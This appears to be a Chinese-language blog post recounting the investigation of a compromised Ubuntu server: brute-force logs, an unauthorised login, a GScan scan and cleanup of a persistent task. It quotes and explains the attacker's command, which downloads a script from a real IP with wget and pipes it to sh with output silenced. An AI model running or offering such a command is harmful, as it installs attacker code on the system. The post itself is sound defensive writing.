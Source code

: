 [![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-032a70df79cb3c37cf0f89a784c8dbb1b49ad108.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-032a70df79cb3c37cf0f89a784c8dbb1b49ad108.png)

查看Ubuntu下/var/log/auth.log的日志发现存在大量的爆破记录

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-05c77e8fe960059d659d3f435e19e8a3e9bf8c66.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-05c77e8fe960059d659d3f435e19e8a3e9bf8c66.png)

使⽤lastb 来查看异常登录⽇志,发现有在28号的时候有人登录了，那段时间我并未登录，后面马上更改了自己的密码，并且翻了翻文件没有发现啥异常，问题解决了就没有去想了，去玩了。

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-89912f680557723e0674fcb789e8ba09d69305dc.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-89912f680557723e0674fcb789e8ba09d69305dc.png)

第二天的时候我还是有点不放心，请原谅我的担忧，于是像师傅请教了一下有没有可以自动检测分析linux的工具。师傅介绍了一个GScan  
**下载地址：**<https://github.com/grayddq/GScan>  
全自动检测工具，由于忘记截图了，所以只能截取日志中保存的结果，发现没有居然存在反弹shell，有点慌了，不过处理方案已经给我们（这是多么一个致命的错误，既然别人一直在反弹shell，第二天才发现，要是是顾客估计被骂德不要不要的）

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-f9b0cf2bb72b0ba830ffaa7e1f7f75992abb7e86.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-f9b0cf2bb72b0ba830ffaa7e1f7f75992abb7e86.png)

`wget -q -O - http://185.191.32.198/unk.sh | sh`把下载的内容输出到标准输出，但并不在屏幕显示，目的当然是直接传递给bash进行解析执行了  
`>/dev/null`  
这条命令的作用是将标准输出1重定向到/dev/null中。 /dev/null代表linux的空设备文件，所有往这个文件里面写入的内容都会丢失，俗称“黑洞”。那么执行了&gt;/dev/null之后，标准输出就会不再存在，没有任何地方能够找到输出的内容。  
`2>&1`  
这条命令用到了重定向绑定，采用&amp;可以将两个输出绑定在一起。这条命令的作用是错误输出将和标准输出同用一个文件描述符，说人话就是错误输出将会和标准输出输出到同一个地方。  
马上寻找该文件，并且将任务删除

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-7cecf44448b0ee5969c61eab62f23caf46a9d42e.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-7cecf44448b0ee5969c61eab62f23caf46a9d42e.png)

参考网上的资料查看了一下/etc/crontab文件中的内容，并未发现异常

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-da7c943f1d9de35b910ddef076d171620ebf717c.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-da7c943f1d9de35b910ddef076d171620ebf717c.png)

使用GScan再次扫描，发现风险清除了，这里要注意风险2并非是攻击者造成的，而是我通过xshell连接的就会检测到

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-a0ed6c2797bba10248d32c9e985ac497740b44b3.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-a0ed6c2797bba10248d32c9e985ac497740b44b3.png)

好比我打开两个终端那么它会检测出两个

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-293dd01286356203373e8912f161f8e281bb9e5d.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-293dd01286356203373e8912f161f8e281bb9e5d.png)

在history中发现执行的命令

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-18c7734eb12e77bb3bc811359aa11a7335931edc.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-18c7734eb12e77bb3bc811359aa11a7335931edc.png)
